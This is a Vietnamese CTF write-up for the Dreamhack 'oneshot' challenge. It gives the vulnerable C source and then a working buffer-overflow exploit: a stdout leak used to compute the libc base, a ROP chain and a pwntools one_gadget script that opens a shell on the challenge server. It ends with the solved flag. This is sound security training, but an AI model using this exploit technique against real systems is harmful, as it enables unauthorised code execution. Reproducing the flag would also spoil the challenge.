




**1. Tìm lỗi**

Ta có file source như sau:

```
// gcc -o oneshot1 oneshot1.c -fno-stack-protector -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if(check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}

```

- Chương trình in ra địa chỉ của `stdout`
- Sau đó chương trình cho nhập vào biến `msg` 46 byte nhưng biến `msg` chỉ được khai báo 16 byte -> Có lỗi `bof`
- Chú ý lúc ghi đè đến `ret` thì phải ghi vị trí biến `check = 0` để không bị exit.

**2. Ý tưởng**

- Có 1 địa chỉ được leak ra -> Nghĩ đến leak địa chỉ libc base
- Dùng lệnh `checksec` kiểm tra:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
- Vậy không cần leak `canary` -> Dùng `ROP` để get shell. 

**3. Khai thác**

Đầu tiên là lấy địa chỉ leak ra rồi đi tính toán để có được địa chỉ libc base



Ta thấy địa chỉ leak ra năm trong dải địa chỉ libc và cách địa chỉ libc base 0x3c5620 byte

```
r.recvuntil(b'stdout: ')
leak = int(r.recvline()[:-1], 16)
log.info("leak address: " + hex(leak))
libc.address = leak - 0x3c5620
log.info("libc base: " + hex(libc.address))
```

Tiếp theo sẽ đi kiếm `gadget` trên libc:

```
pop_rdi = libc.address + 0x0000000000021102
pop_rsi = libc.address + 0x00000000000202e8
pop_rdx = libc.address + 0x0000000000001b92
pop_rax = libc.address + 0x0000000000033544
syscall = libc.address + 0x00000000000026bf
```

```
   0x0000555555400a91 <+80>:    lea    rax,[rbp-0x20]
   0x0000555555400a95 <+84>:    mov    edx,0x2e
   0x0000555555400a9a <+89>:    mov    rsi,rax
   0x0000555555400a9d <+92>:    mov    edi,0x0
   0x0000555555400aa2 <+97>:    call   0x555555400830 <read@plt>
   0x0000555555400aa7 <+102>:   cmp    QWORD PTR [rbp-0x8],0x0
```

Ta thấy biến `msg` cách rbp 0x20 byte nên nhập 0x20 + 0x8 byte rác sẽ tới `ret`. Nhưng từ `msg` đến ret đi qua `check` cách rbp 0x8 byte nên khoảng này phải gán giá trị cho 0. Tức là từ 0x20 -> 0x8 là byte rác. Từ 0x8 đến rbp là 0. Rồi lại ghi đè 0x8 byte rác để đến `ret`. Tại đây sử dụng các thanh ghi để get shell là xong.
```
payload = b'a'*24
payload += p64(0)
payload += b'a'*8
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)
r.sendafter(b'MSG: ', payload)
```

Đặt breakpoint ở lệnh `ret` rồi kiểm tra đã trả về shell mình tạo chưa:



Chương trình đã không trả về đúng ý mình. Nên chuyển qua dùng `one_gadget`. Kiếm `one_gadget` trên libc ta có:



Tiếp theo thử từng cái thằng nào được thì lấy cho nhanh. Ta có script như sau:

```
from pwn import *

exe = ELF('oneshot_patched', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 13062)
libc = ELF('libc.so.6', checksec=False)

r.recvuntil(b'stdout: ')
leak = int(r.recvline()[:-1], 16)
log.info("leak address: " + hex(leak))
libc.address = leak - 0x3c5620
log.info("libc base: " + hex(libc.address))

#input()
one_gadget = libc.address + 0x45216
payload = b'a'*24
payload += p64(0)
payload += b'a'*8
payload += p64(one_gadget)
r.sendafter(b'MSG: ', payload)

r.interactive()
```

**4. Lấy flag**



`Flag: DH{a6e74f669acffd69602b76c81c0516b2}`